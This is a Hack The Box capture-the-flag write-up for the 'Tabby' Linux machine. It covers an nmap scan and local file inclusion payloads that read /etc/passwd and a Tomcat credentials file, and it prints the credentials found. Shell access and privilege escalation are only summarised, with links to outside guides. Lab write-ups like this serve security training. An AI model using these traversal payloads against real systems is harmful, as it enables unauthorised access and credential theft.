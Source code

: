 ```yaml
---
title: "HTB Tabby"
date: 2020-09-25 18:45:00 -0700
categories: [HTB, writeup]
tags: [writeup]
toc: true
---
```


## Introduction

HTB Tabby is a linux-based box.

Author: ``egre55``

Machine IP: ``10.10.10.194``

## Reconnaissance

### nmap

As usual with HTB, the first thing to do is to use nmap to scan the box. The IP of the box is ``10.10.10.194``, as you can see in the command I used:

``nmap -sC -sV -o nmap.nmap 10.10.10.194``

Here is the output of the scan: 

```
kali@kali:~/Desktop/htb/tabby$ nmap -sC -sV -o nmap.nmap 10.10.10.194
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 21:33 EDT
Nmap scan report for tabby.htb (10.10.10.194)
Host is up (0.069s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.72 seconds
```

SSH, a ssh server, and a tomcat server (not sure if those are the correct words to use so bear with me)

Let's check out the apache server first.

I put some random directory in the url to see what would happen, and I ended up finding the version that Tomcat is running on:

`` Apache Tomcat/9.0.31 (Ubuntu) ``

Let's go to the web server.

I looked around for a bit until I found the news page. Once I did I realized something from the url:

```
http://10.10.10.194/news.php/?file=statement
```

It uses ``?file`` so it is vulnerable to LFI. I tested this out and went for /etc/passwd.

```
http://10.10.10.194/news.php/?file=../../../../../etc/passwd
```

It works! Awesome. Armed with this information, let's try to access the ``users.xml`` file mentioned on port 8080.

```
/etc/tomcat9/tomcat-users.xml
```

This is supposedly where the file is but it appears that the file is not there. I googled where tomcat9 is usually installed and saw that it is installed in ``/usr/share/tomcat9/``. 

Now, let's try to go to ``http://10.10.10.194/news.php/?file=../../../../../usr/share/tomcat9/tomcat-users.xml``.

Still nothing. People on the HTB forum suggested that we install the service for ourselves to gain a proper foothold. I watched a video of someone else installing it I managed to find out the proper location.

`` http://10.10.10.194/news.php/?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml ``

I'm greeted with a blank page, but if I view the source of the page I find something interesting:

```
-->
   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
```

``tomcat:$3cureP4s5w0rd123!``

Sweet, now we have credentials, let's try to find an exploit.

I found this guide for a potential exploit: https://null-byte.wonderhowto.com/how-to/hack-apache-tomcat-via-malicious-war-file-upload-0202593/

After following it, we are able to get a shell. There is a zip file which we can crack and we get the password admin@it. We found the zip file in the user ash's files so we can login with ``ash:admin@it``. With that, we now are able to login and grab the user flag.


## Priv Esc

If you type ``id`` you can see that you are part of the ``lxc`` group. With this group, you can escalate privs.

I followed this guide: https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation

With that, I was able to get the root flag.







